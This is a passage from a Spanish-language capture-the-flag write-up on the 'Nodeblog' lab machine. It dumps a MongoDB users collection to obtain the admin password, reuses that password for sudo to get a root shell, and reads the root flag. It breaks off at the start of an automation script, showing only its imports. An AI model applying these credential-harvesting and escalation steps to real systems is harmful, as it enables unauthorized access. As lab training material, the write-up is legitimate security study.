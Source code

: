 Pero no encontramos nada.

Usamos blog:
```
 use blog
switched to db blog
 show collections
articles
users
```

Encontramos users, asi que buscaremos si hay información allí.
```
db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
Encontramos lo que parece ser la contraseña del usuario admin, vamos a probarla:
```
admin@nodeblog:~$ sudo -l
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

Si corresponde a su contraseña, podemos ver que podemos utilizar cualquier comando como root, somos sudoes así que estamos listos:
```
admin@nodeblog:~$ sudo bash
root@nodeblog:/home/admin# whoami
root
root@nodeblog:/home/admin# cd /root
root@nodeblog:~# cat root.txt
dacc9bd5f9edbacb1c4fd9b
root@nodeblog:~# 
```

¡Bien!

Hemos ganado acceso como administrador.


Como un extra vamos a realizar la automatización de la intrusión a la máquina.

Vamos a utilizar las siguientes librerías:
```python
import requests,sys,base64
from pwn import *
from os import system
```

Definimos nuestras variables:
